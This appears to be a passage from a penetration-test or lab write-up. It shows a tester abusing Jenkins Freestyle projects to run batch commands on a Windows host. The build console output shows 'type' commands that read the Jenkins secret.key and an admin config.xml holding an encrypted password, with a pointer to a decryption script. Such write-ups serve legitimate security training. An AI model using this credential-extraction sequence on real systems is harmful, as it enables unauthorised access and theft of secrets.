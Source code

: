 Once the tester had signed up they were able to create "Freesyle projects". A "Freesyle project" is able to build(run) bat scripts on the target host. The tester tested this feature by using the "whoami /all" command. The project needs a trigger to start building, in this case the tester used the periodically options, which triggered the build every minute.

[![The trigger settings](https://imgur.com/XwBIUju.png)

![The build batch script](https://imgur.com/6HOgRCb.png)

After the project ran the tester was able to view the outcome of the build process from the console output option. The command ran successfully showing the service is running under the "oliver" account. 

[![https://imgur.com/9JK5S3Z.png](https://imgur.com/9JK5S3Z.png)](https://imgur.com/9JK5S3Z.png)

After some research the tester found this script, "https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py", which is used to decrypt a users password. This script requires three pieces of information, the master key, the hudson.util.secret file and the credential file, in this case the tester used the config.xml file in the admin user folder. The tester used the previous "freestyle project" method to run commands on the system to print the files.  Below is the console output from the three project builds used to obtain the files. 

``` Getting the secret.key
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project
[project] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins8817444821169889104.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>type c:\Users\oliver\AppData\Local\Jenkins\.jenkins\secret.key 
ac5757641b505503f44d2752ffa01e621bf5b935763ebc8adaa2e90cf85b13ac
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>exit 0 
Finished: SUCCESS
```

``` Getting the admin user config file.
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project
[project] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins7654426993780461805.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>type C:\users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>

<snip>

          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
              
<snip>
            
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
```